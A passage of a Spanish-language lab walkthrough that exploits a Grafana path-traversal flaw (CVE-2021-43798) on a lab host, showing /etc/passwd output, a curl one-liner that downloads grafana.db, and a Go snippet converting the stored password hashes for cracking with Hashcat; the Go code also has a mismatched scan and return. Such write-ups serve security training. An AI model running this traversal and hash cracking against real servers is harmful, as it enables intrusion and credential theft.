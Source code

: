 ```bash
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
➜  nmap
```

- En el repositorio de **GitHub** nos hablan de que podemos obtener el archivo **grafana.db** vamos a descargarlo empleando **curl**.

```bash
➜  content curl -s -o grafana.db --path-as-is http://10.10.86.89:3000/public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db
```

- Ahora vamos a abrir él **.db** para inspeccionarlo.

```bash
➜  content sqlitebrowser grafana.db
```

- Vemos los hashes de 2 usuarios.

<p align="center">
<img src="https://i.imgur.com/9w7FxF9.png">
</p>

- Los **Hashes** usan **PBKDF2-HMAC-SHA256** <https://github.com/iamaldi/grafana2hashcat/blob/main/README.md>.

<p align="center">
<img src="https://i.imgur.com/NX58ccV.png">
</p>

- Pero aun así podemos crackearlos con **Hashcat** <https://vulncheck.com/blog/grafana-cve-2021-43798>, solamente necesitamos transformar los **hashes**.

- Nos dan un script de **go** para generar un formato de hash correcto.

```bash
// grab the usernames, passwords and salts from the downloaded db
rows, err := db.Query("select email,password,salt,is_admin from user")
if err != nil {
    return
}
defer rows.Close()

for rows.Next() {
    var email string
    var password string
    var salt string
    err = rows.Scan(&email, &password, &salt)
    if err != nil {
     return false
    }

    decoded_hash, _ := hex.DecodeString(password)
    hash64 := b64.StdEncoding.EncodeToString([]byte(decoded_hash))
    salt64 := b64.StdEncoding.EncodeToString([]byte(salt))
    _, _ = hash_file.WriteString("sha256:10000:" + salt64 + ":" + hash64 + "\n")
}
```
